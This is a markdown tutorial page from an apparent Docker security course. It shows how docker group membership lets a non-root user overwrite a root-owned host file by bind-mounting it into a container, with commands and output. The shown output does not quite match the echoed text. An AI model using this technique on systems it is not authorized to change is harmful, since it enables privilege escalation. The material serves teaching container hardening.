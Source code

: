 # Exploiting vulnerable images

<sub>You can buy this course on Udemy following this link: [Hacking and Securing Docker Containers](https://www.udemy.com/course/hacking-and-securing-docker-containers/)</sub>

## Namespaces

### Editing read-only files as root from containers

Normally we run containers with our users, with or without sudoers.
Even if we are only in a single docker group, it allows you to run docker.
But we have a problem in this case. A **security** problem.

```bash
gle003@vb-ubuntu:~$ ll /tmp/file.txt
-rw-r--r-- 1 root root 36 jul 11 14:53 /tmp/file.txt
```
> ​	*file.txt* was created with root user.

As you can see, *file.txt* has **no write** to other users than root.

```bash
gle003@vb-ubuntu:~$ cat /tmp/file.txt
File from VM. Out of the container.
gle003@vb-ubuntu:~$ echo "Edit from non-root user" >> /tmp/file.txt
-su: /tmp/file.txt: Permission denied
```
If we start a container **sharing a folder from the machine**, you can login inside the container and have root privileges, as I show below:

```bash
#Creating a new container and sharing /tmp/
gle003@vb-ubuntu:~$ docker run -itd -v /tmp/:/shared/ --name alpine_broken alpine
3be059a0473ddc9cbe33c1a95ba4e52d25525d912cd8ef5a01f1da0066c7a6eb
gle003@vb-ubuntu:~$ docker exec -it alpine_broken sh

#Testing if it is possible to edit file.txt from the container
~ # ls -l /shared/file.txt
-rw-r--r--    1 root     root            36 Jul 11 17:53 /shared/file.txt
~ # echo "Edit from container." > /shared/file.txt
~ # cat /shared/file.txt
Edit from the container.
~ # exit

#Seeing that it changed from the machine
gle003@vb-ubuntu:~$ cat /tmp/file.txt
Edit from the container.
```

As you can see, even if the file is writable only for root user, I can edit it from the container.

> **Why?**
>
> Because root user from the container has the same uid that root user has in the machine.
